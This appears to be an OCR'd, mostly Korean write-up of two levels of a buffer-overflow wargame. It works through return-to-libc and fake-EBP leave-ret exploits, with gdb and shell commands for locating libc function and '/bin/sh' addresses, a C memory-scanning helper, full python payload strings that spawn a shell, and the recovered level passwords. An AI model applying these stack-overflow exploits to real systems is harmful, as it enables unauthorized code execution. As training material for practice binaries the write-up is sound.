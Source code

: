 Payload: Dummy(40) + SFP(4) + execve (4) + system(4) + Dummy(4) + /bin/sh(4)

pwd: one step closer

(gdb) p/x 0x40018000 (사용된 공유 라이브러리 주소) + 0x00091d48 (__execve address)

사용된 공유 라이브러리 주소: ldd 파일 | grep libc | awk ‘{print $4}’
Execute address: nm /lib/libc.so.6 | grep __execve | awk ‘{print $1}’
$1 = 0x400a9d48

execve: 0x400a9d48
system: 0x40058ae0
/bin/sh: 0x400fbff9

[/bin/sh address 찾는 C코드] 

#include <stdio.h>
#include <string.h>

int main(void) {
        long addr = 0x40058ae0;
        while(memcmp((void *) addr, "/bin/sh", 8)) {
                addr++;
        }
        printf("0x%x\n", addr);

        return 0;
}

[giant] ./assassin “`python -c ‘print “\x90” * 44 + “\x1e\x85\x04\x08"+"\xe0\x8a\x05\x40” + “\x90” * 4 + “\xf9\xbf\x0f\x40”’`” 

pwd: pushing me away

payload: Dummy(40) + SFP(4) + Main_ret_addr(4) + System(4) + Dummy(4) + /bin/sh_addr(4)  

[assassin] 

SFP 부분을 &buf -4 주소로 채우고 return 주소를 leave 주소로 채워 buf 시작 주소에 있는 주소 값을 return 하도록 하여 SHELL을 실행

pwd: no place to hide

"`python -c 'print "\x04\xfc\xff\xbf"+"\xe0\x8a\x05\x40" + "\x90" * 4 + "\xf9\xbf\x0f\x40"+"\x90"*24 + "\xfc\xfb\xff\xbf" + "\xdf\x84\x04\x08"'`"

payload: (&buf+4)(4) + "\xe0\x8a\x05\x40" + "\x90" * 4 + "\xf9\xbf\x0f\x40" + [SFP](&buf-4)(4) + leave_addr(4)

0xbffffc04: &buf+4
0xbffffc00: buf 시작주소 
0xbffffbfc: &buf-4 

0xbffffbfc
0x80484df: leave (main)
Fake EBP: EBP를 조작하여 leave-ret Gadget을 이용하여 IP (Instruction Pointer)를 조작하는 기법
(스택 주소와 라이브러리 주소를 덮어쓸 수 없을 때 사용) 

leave  -> mov esp ebp
                 pop ebp
ret -> pop eip 
	   jmp eip
